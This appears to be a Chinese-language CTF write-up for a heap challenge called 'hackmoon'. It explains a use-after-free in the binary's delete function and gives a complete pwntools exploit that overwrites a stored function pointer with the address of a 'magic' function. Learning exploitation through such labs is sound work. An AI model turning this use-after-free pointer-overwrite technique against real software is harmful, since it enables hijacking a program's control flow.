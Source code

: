 # hackmoon

## 题目

标准的选项题，有add print delete 功能

add 限制五次分配chunk，会先分配八个字节，分配用来存放一个print_moon_content函数指针及之后为用户分配的chunk指针，同时会在bss段存放为用户分配的chunk指针。
print 会检查输入的idx及bss段的指针，在指针存在的情况下，调用该指针处的函数，也就是之前存放的print_moon_content函数指针

```
int __cdecl print_moon_content(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```
delete 会将之前的两个指针依次free，但是其他的什么也没动，存在UAF问题

## 分析

UAF漏洞很明显，同时指针被放到了堆中，很容易想到利用UAF控制指针即可，又同时，题中给了magic函数，所以想办法让magic函数指针覆盖某个chunk的指针就可以了


## exp

```
from pwn import *
context.log_level = 'debug'
sh = process('./hackmoon')
elf = ELF('./hackmoon')

def add(size, content):
    sh.recvuntil('Your choice :')
    sh.sendline('1')
    sh.recvuntil('moon size :')
    sh.sendline(str(size))
    sh.recvuntil('Content :')
    sh.send(content)


def delete(index, ):
    sh.recvuntil('Your choice :')
    sh.sendline('2')
    sh.recvuntil('Index :')
    sh.sendline(str(index))
    sh.recvuntil('Success\n')
    return


def show(index):
    sh.recvuntil('Your choice :')
    sh.sendline('3')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

magic= 0x8048986
add(0x8,'aaaaaaa')
add(0x8,'bbbbbbb')
delete(1)
delete(0)
add(0x20,'ccccccccc')
add(0x8,'deadbeef')
delete(3)
delete(2)
add(0x8,p32(magic)*2)
show(3)
#gdb.attach(sh)
sh.interactive()
```







